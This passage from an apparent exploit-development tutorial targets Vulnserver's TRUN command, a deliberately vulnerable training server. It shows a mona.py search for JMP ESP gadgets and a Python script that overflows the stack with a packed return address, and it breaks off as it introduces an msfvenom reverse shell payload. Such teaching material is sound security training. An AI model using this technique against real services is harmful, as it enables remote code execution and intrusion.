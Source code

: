 `mona.py` can also help us to identify the desired instructions on the
desired modules, by running:

**mona.**

``` console
!mona jmp -r esp -cp nonull -o
```

<div class="imgblock">

![JMP ESP instructions](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331209/blog/vulnserver-trun/esp1_nq7r8o.webp)

</div>

As you can see, there are several `JMP ESP` instructions we can pick. We
are going to pick the one at `62501205`. Let’s update the exploit and
replace the four `B` with that address:

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

If everything comes as expected, we will hit that `JMP ESP` instruction
that will lead us to execute code on our `C` buffer. Let’s put a
breakpoint at the `JMP ESP` instruction and run the exploit:

<div class="imgblock">

![Performing the JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun10_d5p7nq.gif)

</div>

Great\!

All that’s left is to include a shellcode in place of the buffer of `C`
so can execute commands on the victim machine. We will use a reverse
shell payload as generated by `msfvenom`:

<div class="imgblock">
